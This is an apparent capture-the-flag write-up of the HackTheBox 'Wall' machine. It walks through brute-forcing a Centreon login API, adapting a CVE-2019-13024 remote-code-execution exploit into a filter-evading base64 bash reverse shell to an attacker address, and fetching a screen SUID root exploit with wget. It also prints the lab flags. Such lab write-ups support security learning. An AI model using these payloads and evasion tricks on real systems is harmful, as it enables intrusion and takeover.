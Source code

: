 ```yaml
---
title: "Wall - HackTheBox"
date: 2019-12-07T17:00:00+02:00
tags: []
---
```


## Information gathering

Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 19:40 EDT
Nmap scan report for 10.10.10.157
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
```

The web server has the Apache's default homepage.

Running a quick discovery gives us some pages to visit:
```
$ gobuster dir -q -t 40 -w raft-medium-files.txt -u http://10.10.10.157
/index.html (Status: 200)
/panel.php (Status: 200)
/wp-forum.phps (Status: 403)
/aa.php (Status: 200)
```

```
$ gobuster dir -q -t 40 -w raft-medium-directories.txt -u http://10.10.10.157
/monitoring (Status: 401)
/server-status (Status: 403)
```

## Exploration

`/aa.php` and `/panel.php` do not contain anything useful and `/monitoring` is
protected by HTTP basic authentication, which I tried to bruteforce with no
success. After a bit of tinkering, I found that making a `POST` request to
`/monitoring` redirects you to a page containing a link to `/centreon`:

```
$ curl -X POST -L http://10.10.10.157/monitoring
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Visiting `/centreon` we find ourselves in front of a login form for the Centreon
platform, which is a system monitoring tool:

![](/images/hackthebox/wall/centreon.png)

Let's try to login with a random username and password, and intercept the
request with Burp:
![](/images/hackthebox/wall/login.png)

The login process uses a token that changes with every request, so we can not
use hydra to do a bruteforce. We might write a script that fetches the token and
makes the login request, but whenever I stumble upon new web applications, I
like to learn how the mechanisms behind them are implemented. Centreon, in this
case, have an API that can be used to authenticate users and get a token. We can
then use wfuzz to find valid combination of username and password.

Before we launch the bruteforce, let's check if the API endpoint is up and
running:
```
$ curl -d "username=test&password=test" "http://10.10.10.157/centreon/api/index.php?action=authenticate"
"Bad credentials"
```

Ok, the authentication API works. A quick search tells us that the default
username on Centreon is `admin`, so let's start a bruteforce on that:

```
$ wfuzz -c --hc 403  -w probable-v2-top1575.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 1575

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000048:   200        0 L      1 W      61 Ch       "password1"

Total time: 12.86365
Processed Requests: 1575
Filtered Requests: 1574
Requests/sec.: 122.4380
```

Nice! Look's like admin's password is `password1`! Let's use it to login.

## Exploiting

Here is the panel after logging in:
![](/images/hackthebox/wall/panel.png)
The menu on the right of the Centreon panel allows us to discover it's version
by going on Administration > About, and it's 19.04.0 commit `f2a106936`.

A search on Google immediately points us toward a remote code execution
identified by `CVE-2019-13024`:

> Centreon 18.x before 18.10.6, 19.x before 19.04.3, and Centreon web before
> 2.8.29 allows the attacker to execute arbitrary system commands by using the
> value "init_script"-"Monitoring Engine Binary" in main.get.php to insert a
> arbitrary command into the database, and execute it by calling the vulnerable
> page www/include/configuration/configGenerate/xml/generateFiles.php (which
> passes the inserted value to the database to shell_exec without sanitizing it,
> allowing one to execute system arbitrary commands).

The identification code for the exploit is `47069` on exploit-db, so let's
download it with `searchsploit -m 47069`. Let's have a look at the payload
section:
```python
payload_info = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    # this value should be 1 always
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
    "ssh_port": "22",
    "init_script": "centengine",
    # this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token,
}
```

The `nagios_bin` field is the one that will be executed on the server.  The
first thing to do is to launch a netcat listener on our machine with `nc -lnvp
1337`.  

The first thing that we should do is to change all the URLs in the script by
prepending `/centreon` to them, as this is the location that it's installed to
on the machine.


Launching the exploit with our ip address and port, to get a reverse shell, does
not work, because there might be some characters that are not allowed in the
command. Let's try to create a string that could bypass the protections.  
We can encode with base64 our command to avoid using characters like `>` and
`&`:
```
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx
```

I used a bash reverse shell command to connect to our netcat listener because I
don't know which is the version of it on the server (if present at all), as the
syntax may vary from one to another.

Ok, now we have a base64 encoded reverse shell command. Let's add the decoding
command and pipe the result in bash:
```
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | sh
```

Now let's set `nagios_bin` to use this command and remove the `.format(ip,
port)` as it's not needed anymore:
```
"nagios_bin": "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | bash",
```

It still does not work, probably because of white spaces, so let's replace them with `${IFS}`:
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash",
```

This still does not work, probably because of some sort of command concatenation
error, so let's add a `;` after the bash command
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash;",
```

This time we finally have a connection from the server, so the exploit worked!

```
$ nc -lnvp 1337
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

## Privilege escalation
At first I saw this message `[+] We can connect to the local MYSQL service as
'root' and without a password!` and I tried to use mysql to get a shell, but I
could not get a stable output because of the shell running on netcat. I
continued reading LinEnum's output and I found an unusual executable in the
`SUID` files section:
![](/images/hackthebox/wall/linenum.png)

It is 'screen-4.5.0', and luckily, there's a handy local root exploit on
[exploit-db](https://www.exploit-db.com/exploits/41154). After downloading it on
our machine, let's start a web server with `python -m http.server 8080` and
let's download it on the remote machine with `wget
http://10.10.14.4:8080/41154.sh`. Just run it and a couple of seconds later we should
have a root shell! Let's read the flags:

```
wc -c /home/shelby/user.txt
33 user.txt
fe6194544f452f62dc905b12f8da8406

cat /root/root.txt
1fdbcf8c33eaa2599afdc52e1b4d5db7
```
